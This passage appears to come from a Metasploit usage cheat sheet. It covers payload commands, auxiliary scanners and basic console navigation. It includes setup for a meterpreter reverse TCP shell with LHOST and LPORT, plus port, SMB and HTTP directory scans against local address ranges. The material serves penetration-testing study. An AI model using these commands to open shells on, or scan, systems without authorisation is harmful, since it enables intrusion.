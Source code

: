 ### 2. Payloads
```bash
# Show available payloads
show payloads

# Show compatible payloads for current exploit
show payloads

# Set payload
set payload windows/x64/meterpreter/reverse_tcp

# Show payload options
show options

# Set payload options
set LHOST 192.168.1.10
set LPORT 4444
```

### 3. Auxiliary Modules
```bash
# Search auxiliary modules
search type:auxiliary

# Port scanners
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.1.0/24
set PORTS 1-1000
run

# SMB scanner
use auxiliary/scanner/smb/smb_version
set RHOSTS 192.168.1.0/24
run

# HTTP directory scanner
use auxiliary/scanner/http/dir_scanner
set RHOSTS 192.168.1.100
run
```

## Common Metasploit Commands

### Navigation and Information
```bash
# Show help
help
?

# Show current module info
info

# Show module options
show options

# Show advanced options
show advanced

# Show payloads
show payloads

# Show targets
show targets
```